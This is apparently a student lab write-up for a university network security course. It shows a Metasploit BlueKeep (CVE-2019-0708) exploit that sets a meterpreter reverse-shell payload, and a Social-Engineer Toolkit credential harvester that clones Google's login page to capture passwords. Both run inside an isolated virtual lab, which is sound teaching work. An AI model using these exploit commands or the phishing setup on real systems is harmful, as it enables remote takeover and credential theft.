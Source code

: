 ```yaml
---
title: A&D of Network Security - Lab 13
tags: [NTU, NTU_PADNS]

category: "Security/Course/NTU PADNS"
---
```


# A&D of Network Security - Lab 13
<!-- more -->
###### tags: `Practicum of A&D of NS` `NTU`

## Metasploit with Bluekeep Vulnerability (CVE-2019-0708)

### Setting up environment
* Open Windows 7 and Kali-Linux with `localhost only` mode
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/Skg3sJ93Hh.png)
    
    ![](https://hackmd.io/_uploads/ByyTJqnHh.png)
    :::
* Then we can note that the IP of these two machines are different:
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/H1gOg5hSn.png)
    
    ![](https://hackmd.io/_uploads/H1VSlcnB3.png)
    :::
    Now, we know `Win7`'s IP: `192.168.56.101`
    Kali-Linux's IP: `192.168.56.102`

* Test the connection of these machines
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/HJ3D-5hS2.png)

    ![](https://hackmd.io/_uploads/S1eSW5hB3.png)
    :::
* Always allow the remote desktop connection of `Win7`
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/Hk0yzchB3.png)
    
    ![](https://hackmd.io/_uploads/HJQxfc3Sh.png)
    :::

### Try to Exploit
* Open Metasploit in Kali-Linux
    ```bash!
    $ use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    $ info # Can check the mode you'd like to use
    $ set rhost 192.168.56.101 # set remote host IP -> victim(Win7)
    $ set lhost 192.168.56.102 # set local host IP -> attacker(Kali-Linux)
    $ set target 2 # For virtual-box mode
    $ set payload windows/x64/meterpreter/reverse_tcp # Set the exploited payload
    $ check # Check if the victim can be exploited or not
    $ exploit # Actually attack
    ```
    :::info
    Sometimes the attack will not always success, you must try until it success.
    :::
    
    :::spoiler Detailed Screenshot
    ![](https://hackmd.io/_uploads/H1PUwq2S3.png)
    ![](https://hackmd.io/_uploads/ByQ6wqnHh.png)
    :::

### Remote Desktop

## Social Engineering in Kali-Linux
1. Set up the network environment same as the lab above
2. Open Social Engineering Toolkit(root) in Kali-Linux
3. Enter Command
    ```bash!
    ...
       1) Spear-Phishing Attack Vectors
       2) Website Attack Vectors
       3) Infectious Media Generator
       4) Create a Payload and Listener
       5) Mass Mailer Attack
       6) Arduino-Based Attack Vector
       7) Wireless Access Point Attack Vector
       8) QRCode Generator Attack Vector
       9) Powershell Attack Vectors
      10) Third Party Modules

      99) Return back to the main menu.

    set> 2
    ...
       1) Java Applet Attack Method
       2) Metasploit Browser Exploit Method
       3) Credential Harvester Attack Method
       4) Tabnabbing Attack Method
       5) Web Jacking Attack Method
       6) Multi-Attack Web Method
       7) HTA Attack Method

      99) Return to Main Menu

    set:webattack>3
    ...
       1) Web Templates
       2) Site Cloner
       3) Custom Import

      99) Return to Webattack Menu

    set:webattack>1
    [-] Credential harvester will allow you to utilize the clone capabilities within SET
    [-] to harvest credentials or parameters from a website as well as place them into a report
    ...
    Enter the IP address for POST back in Harvester/Tabnabbing: 192.168.56.102 # Must using Kali-Linux IP
    ...
    -------------------------------------------------------

      1. Java Required
      2. Google
      3. Twitter

    set:webattack> Select a template:2    # You can also use other templates

    [*] Cloning the website: http://www.google.com                                                                     
    [*] This could take a little bit...                                                                                

    The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                                                              
    [*] The Social-Engineer Toolkit Credential Harvester Attack
    [*] Credential Harvester is running on port 80                                                                     
    [*] Information will be displayed to you as it arrives below:

    ```
4. Open Chrome in Win7 and enter Kali IP and enter your account/password
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/SJBgpB1In.png)
    :::
5. Check Kali-Linux Terminal
    ```bash!
    192.168.56.101 - - [27/May/2023 05:25:50] "GET / HTTP/1.1" 200 -
    192.168.56.101 - - [27/May/2023 05:26:48] "GET /favicon.ico HTTP/1.1" 404 -
    [*] WE GOT A HIT! Printing the output:
    PARAM: GALX=SJLCkfgaqoM
    PARAM: continue=https://accounts.google.com/o/oauth2/auth?zt=ChRsWFBwd2JmV1hIcDhtUFdldzBENhIfVWsxSTdNLW9MdThibW1TMFQzVUZFc1BBaURuWmlRSQ%E2%88%99APsBz4gAAAAAUy4_qD7Hbfz38w8kxnaNouLcRiD3YTjX
    PARAM: service=lso
    PARAM: dsh=-7381887106725792428
    PARAM: _utf8=â
    PARAM: bgresponse=js_disabled
    PARAM: pstMsg=1
    PARAM: dnConn=
    PARAM: checkConnection=
    PARAM: checkedDomains=youtube
    POSSIBLE USERNAME FIELD FOUND: Email=test123
    POSSIBLE PASSWORD FIELD FOUND: Passwd=123456
    PARAM: signIn=Sign+in
    PARAM: PersistentCookie=yes
    [*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
    ```
6. Done
We try to fetch the victim's account using fake web template...